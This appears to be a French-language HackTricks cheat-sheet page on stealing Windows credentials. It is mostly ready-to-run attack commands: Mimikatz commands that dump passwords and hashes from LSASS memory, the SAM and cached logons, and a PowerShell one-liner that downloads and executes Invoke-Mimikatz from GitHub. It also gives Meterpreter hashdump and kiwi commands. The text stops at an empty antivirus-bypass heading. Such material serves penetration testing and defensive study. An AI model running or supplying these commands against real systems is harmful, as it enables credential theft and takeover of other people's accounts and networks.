 # Vol de Credentials Windows

{{#include ../../banners/hacktricks-training.md}}

## Credentials Mimikatz
```bash
#Elevate Privileges to extract the credentials
privilege::debug #This should give am error if you are Admin, butif it does, check if the SeDebugPrivilege was removed from Admins
token::elevate
#Extract from lsass (memory)
sekurlsa::logonpasswords
#Extract from lsass (service)
lsadump::lsa /inject
#Extract from SAM
lsadump::sam
#One liner
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
```
**Découvrez d'autres choses que Mimikatz peut faire sur** [**cette page**](credentials-mimikatz.md)**.**

### Invoke-Mimikatz
```bash
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds #Dump creds from memory
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'
```
[**Découvrez ici quelques protections possibles des identifiants.**](credentials-protections.md) **Ces protections pourraient empêcher Mimikatz d'extraire certains identifiants.**

## Identifiants avec Meterpreter

Utilisez le [**Plugin d'Identifiants**](https://github.com/carlospolop/MSF-Credentials) **que** j'ai créé pour **rechercher des mots de passe et des hachages** à l'intérieur de la victime.
```bash
#Credentials from SAM
post/windows/gather/smart_hashdump
hashdump

#Using kiwi module
load kiwi
creds_all
kiwi_cmd "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam"

#Using Mimikatz module
load mimikatz
mimikatz_command -f "sekurlsa::logonpasswords"
mimikatz_command -f "lsadump::lsa /inject"
mimikatz_command -f "lsadump::sam"
```
## Contournement de l'AV
